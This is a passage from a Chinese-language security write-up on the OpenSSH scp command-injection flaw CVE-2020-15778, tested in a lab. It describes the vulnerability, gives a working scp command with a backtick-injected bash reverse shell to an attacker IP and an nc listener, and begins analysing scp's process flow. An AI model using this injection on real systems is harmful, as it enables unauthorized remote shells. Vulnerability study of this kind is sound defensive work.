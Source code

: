ssh服务默认开启：

![image-20221024201751189.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-35b281a68b817d95f2da0e2adbe0972ebfe0f29c.png)

ssh登陆后发现命令中有shell可以进入其shell。

![image-20221024201920205.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-6345d41f4ac806b90aaca80416295d3b01722485.png)

查看openssh版本：

![image-20221024202007241.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-7b2336c898f827881015139c7521bd284143be27.png)

漏洞cve：OpenSSH 命令注入漏洞（CVE-2020-15778）

```js

CVE编号：CVE-2020-15778  
​  
发布时间：2020-07-24  
​  
危害等级：高危  
​  
漏洞版本：<= openssh-8.3p1  
​  
漏洞描述：OpenSSH  8.3p1及之前版本中的scp的scp.c文件存在操作系统命令注入漏洞。该漏洞即使在禁用ssh登录的情况下，但是允许使用scp传文件，而且远程服务器允许使用反引号(\`)，可利用scp复制文件到远程服务器时，执行带有payload的scp命令，从而在后续利用中getshell。  
​  
利用条件：知道目标的ssh密码

模拟场景：仅允许使用scp，ssh接口未开启的场景，让该漏洞在特殊环境下实现命令注入。
```

利用方式：

scp 1.tgz nsroot@192.168.100.1:'`bash -c "bash -i &gt;&amp; /dev/tcp/192.168.100.6/9999 0&gt;&amp;1"`'

进行nc监听：nc -lvp 9999，然后通过scp进行文件上传同时利用`符号进行命令注入，从而可以达到命令执行的效果（攻击机需要接入网络，这里设置VMware1网口，并配置攻击机的ip与云在一个网段即可）

![image-20221024214444313.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-2a94984d4271522042f2a182ff940c7699f97066.png)

反弹shell效果：

![image-20221024214707309.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3116b88e80591aa9bb87fb15b5e61d77b9f77b84.png)

0x04 openssh(scp)漏洞点分析
----------------------

SCP（Secure Copy）：scp就是secure copy，是用来进行远程文件复制的，并且整个复制过程是加密的。数据传输使用ssh，并且和使用和ssh相同的认证方式，提供相同的安全保证。SCP依赖openssh软件包提供功能。

在正常情况下，在服务器系统中scp服务没有相关进程，而当scp传输文件时，scp进程出现，而且根据传输的目录不同有不同的参数。ssh服务一直开启监听，所以当客户端通过scp请求时，先通过ssh接收请求，并根据请求运行scp程序，所以当sshd进程被我手动杀掉之后，scp服务无法正常连接。

![image-20221027155007134.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9df1605c2428b4cbb9a34e893824f159a96e7ba4.png)
